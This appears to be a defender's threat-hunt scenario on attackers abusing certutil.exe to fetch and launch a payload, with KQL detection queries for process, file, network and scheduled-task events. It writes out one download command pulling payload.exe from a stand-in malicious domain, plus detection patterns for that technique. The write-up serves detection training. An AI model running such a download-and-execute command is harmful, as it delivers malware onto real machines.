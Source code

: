 # Threat Hunt Scenario: Suspicious Use of Certutil for Payload Download

## 🔍 Threat Event: Suspicious Use of Certutil
**Description:**  
Adversaries used `certutil.exe`, a known Living Off the Land Binary (LOLBIN), to download and execute a suspicious payload.

---

## 🎯 Reason for Threat Hunt

- **Trigger:**  
  Security team received an alert from the firewall indicating an outbound connection to a known malware-hosting domain.

- **Context:**  
  Certutil abuse for downloading files has been highlighted in recent cybersecurity advisories and APT threat intelligence feeds.  
  (Reference: [MITRE ATT&CK T1105 – Ingress Tool Transfer](https://attack.mitre.org/techniques/T1105/))

- **Directive:**  
  Management requested a proactive hunt for any endpoints using LOLBINs like `certutil.exe` for unauthorized downloads.

---

## 🧪 Steps Taken by the "Bad Actor" – Logs & IoCs

1. **Command Shell Opened (CMD/PowerShell)**
2. **Payload Downloaded Using Certutil:**

```bash
certutil -urlcache -split -f http://malicious-domain.com/payload.exe C:\Users\Public\payload.exe
```
3. **Payload Executed:**

```vbnet
Copy
Edit
C:\Users\Public\payload.exe
```
4. **Persistence Established:**
Created a malicious scheduled task for persistence.

5. **C2 Connection Established:**
Connected to a remote Command and Control server on port 443.

🧩 Artifacts & Hunting Tables

| Artifact Table              | Purpose                                         |
| --------------------------- | ----------------------------------------------- |
| `DeviceProcessEvents`       | Detect certutil execution and payload execution |
| `DeviceFileEvents`          | Confirm payload was written to disk             |
| `DeviceNetworkEvents`       | Detect outbound connections to C2 servers       |
| `DeviceScheduledTaskEvents` | Identify malicious scheduled task persistence   |

📘 Related KQL Queries
🔍 Certutil Abuse for File Download
```kql
DeviceProcessEvents
| where FileName == "certutil.exe"
| where ProcessCommandLine has_all("http", "-urlcache", "-split", "-f")
| project Timestamp, DeviceName, AccountName, ProcessCommandLine, InitiatingProcessCommandLine
```
📄 Payload Dropped to Disk
```kql
DeviceFileEvents
| where FolderPath contains "C:\\Users\\Public"
| where FileName endswith ".exe"
| where InitiatingProcessFileName == "certutil.exe"
| project Timestamp, DeviceName, FileName, FolderPath, InitiatingProcessCommandLine
```
🚀 Payload Execution
```kql
DeviceProcessEvents
| where FolderPath contains "C:\\Users\\Public"
| where FileName endswith ".exe"
| where InitiatingProcessFileName != "certutil.exe"
| project Timestamp, DeviceName, AccountName, ProcessCommandLine
```
🌐 Network Connections from Payload
```kql
DeviceNetworkEvents
| where InitiatingProcessFileName endswith ".exe"
| where InitiatingProcessFolderPath contains "C:\\Users\\Public"
| where RemotePort == 443
| project Timestamp, DeviceName, InitiatingProcessFileName, RemoteIP, RemoteUrl
```
🛠 Persistence via Scheduled Task
```kql
DeviceScheduledTaskEvents
| where TaskAction contains "payload.exe"
| project Timestamp, DeviceName, TaskName, TaskAction, InitiatingProcessFileName
```
📎 Notes
Monitor use of certutil.exe with suspicious flags (-urlcache, -split, -f).

Prioritize endpoints with public folder .exe executions followed by outbound traffic.

✅ Hunting Goal: Identify and contain endpoints abusing certutil to fetch and launch malicious executables.

## 📅 Revision History

| Version | Changes       | Date          | Modified By                |
| ------- | ------------- | ------------- | -------------------------- |
| 1.0     | Initial Draft | June 26, 2025 | Aduragbemi Oladapo |

---

